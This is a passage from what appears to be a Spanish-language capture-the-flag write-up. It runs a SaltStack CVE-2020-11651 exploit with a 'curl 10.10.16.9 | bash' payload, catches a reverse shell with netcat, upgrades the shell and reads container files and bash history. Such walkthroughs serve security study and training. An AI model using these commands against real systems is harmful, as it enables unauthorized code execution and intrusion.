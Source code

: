 Me traigo el exploit y lo ejecuto

```null
proxychains python3 exploit.py --master 127.0.0.1 --exec 'curl 10.10.16.9 | bash'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/usr/local/lib/python3.11/dist-packages/salt-3006.0rc1+39.g98b151afc5-py3.11.egg/salt/transport/client.py:29: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
  warn_until(
[+] Checking salt-master (127.0.0.1:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: etV+RAjLTqVPDAvLG+++LZFuw91uemWwbZAtKybETXGaMaQsS+BjqVGLePRcF2OvLFx4ktxEvhU=
[+] Attemping to execute curl 10.10.16.9 | bash on 127.0.0.1
[+] Successfully scheduled job: 20230313210001395873
```

Recibo la reverse shell

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.10.205] 51180
bash: cannot set terminal process group (7051): Inappropriate ioctl for device
bash: no job control in this shell
root@2d24bf61767c:~# script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
root@2d24bf61767c:~# ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
root@2d24bf61767c:~# export TERM=xterm
root@2d24bf61767c:~# export SHELL=bash
root@2d24bf61767c:~# stty rows 55 columns 209
```

Estoy dentro de otro contenedor

```null
root@2d24bf61767c:~# hostname -I
172.17.0.2 
```

Hay un archivo ```todo.txt```

```null
root@2d24bf61767c:~# cat todo.txt 
- Add saltstack support to auto-spawn sandbox dockers through events.
- Integrate changes to tomcat and make the service open to public.
```

Puedo leer el histórico de la ```bash```

```null
root@2d24bf61767c:~# cat .bash_history 
paswd
passwd
passwd
passswd
passwd
passwd
cd /root
ls
ls -la
rm .wget-hsts 
cd .ssh/
```